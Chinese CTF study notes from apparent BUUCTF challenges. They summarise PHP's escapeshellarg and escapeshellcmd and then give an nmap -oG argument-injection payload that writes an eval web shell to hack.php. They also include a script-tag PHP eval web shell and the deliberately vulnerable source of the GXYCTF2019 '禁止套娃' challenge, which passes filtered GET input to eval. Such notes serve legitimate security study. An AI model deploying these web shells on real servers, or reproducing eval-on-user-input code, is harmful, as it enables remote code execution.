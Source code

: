 * [escapeshellarg](https://www.php.net/manual/zh/function.escapeshellarg.php)   把字符串转码为可以在 shell 命令里使用的参数

  **escapeshellarg()** 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。shell 函数包含  [exec()](https://www.php.net/manual/zh/function.exec.php), [system()](https://www.php.net/manual/zh/function.system.php)    [执行运算符](https://www.php.net/manual/zh/language.operators.execution.php) 。  

* [escapeshellcmd](https://www.php.net/manual/zh/function.escapeshellcmd.php)   shell 元字符转义

     **escapeshellcmd()** 对字符串中可能会欺骗    shell 命令执行任意命令的字符进行转义。   此函数保证用户输入的数据在传送到    [exec()](https://www.php.net/manual/zh/function.exec.php) 或   [system()](https://www.php.net/manual/zh/function.system.php) 函数，或者 [执行操作符](https://www.php.net/manual/zh/language.operators.execution.php) 之前进行转义。  

  ​    反斜线（\）会在以下字符之前插入：   `&#;`|*?~<>^()[]{}$\`, `\x0A`   和 `\xFF`。 `'` 和 `"`   仅在不配对儿的时候被转义。   在 Windows 平台上，所有这些字符以及 `%` 和 `!` 字符都会被空格代替。  

https://paper.seebug.org/164/

payload

```
?host=' <?php @eval($_POST["hack"]);?> -oG hack.php '
```

看这里： https://blog.csdn.net/qq_26406447/article/details/100711933

## [RoarCTF 2019]Easy Java

java  web   tomcat  文件包含知识

https://blog.csdn.net/silencediors/article/details/102579567

## 

```
<script language="php">
eval($_POST[1]);
</script>
```

## [GXYCTF2019]禁止套娃

git泄露

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```